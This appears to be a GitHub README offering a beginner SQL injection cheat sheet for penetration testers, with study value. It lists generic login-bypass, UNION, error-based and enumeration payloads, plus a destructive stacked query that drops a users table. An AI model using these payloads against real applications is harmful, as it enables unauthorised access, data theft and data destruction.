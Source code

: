 # SQL for Pentesters - Beginner Cheatsheet

---

## What is SQL?

SQL (Structured Query Language) is used to interact with databases.

---

## Basic SQL Syntax

```sql
SELECT * FROM users;
SELECT username, password FROM accounts;
```

- `SELECT` → Retrieve data
- `FROM` → Specify the table
- `WHERE` → Add conditions

---

## SQL Injection Basics

### Classic Injection
```sql
' OR '1'='1
```

### Bypass Login
```sql
admin' --
' OR 1=1 --
```

### Tautology Injection
```sql
' OR 'a'='a
```

### Stacked Queries (if supported)
```sql
1; DROP TABLE users--
```

---

## Useful Operators

- `' OR 1=1 --` → Always true
- `' UNION SELECT` → Combine results from two queries
- `--` or `#` → Comment out rest of the query
- `AND`, `OR`, `NOT` → Logical operators

---

## Extracting Information

### Determine number of columns
```sql
' ORDER BY 1--
' ORDER BY 2--
```

### UNION SELECT (basic)
```sql
' UNION SELECT null, null--
```

### Error-based injection
```sql
' AND 1=CONVERT(int, (SELECT @@version))--
```

---

## Database Fingerprinting

### MySQL
```sql
SELECT @@version;
SELECT database();
```

### PostgreSQL
```sql
SELECT version();
SELECT current_database();
```

### MSSQL
```sql
SELECT @@version;
SELECT db_name();
```

---

## Enumerating Tables and Columns (MySQL example)

### List Tables
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'target_db';
```

### List Columns
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

---

## Tools

- `sqlmap` → Automated SQL injection tool
- `Burp Suite` → Intercept and modify SQLi payloads
- Browser extensions → Tamper Data, HackBar, etc.

---

## Tips

- Test with `'` or `"` to look for SQL errors
- Look at response differences when injecting
- Use `LIMIT` to restrict large outputs

---
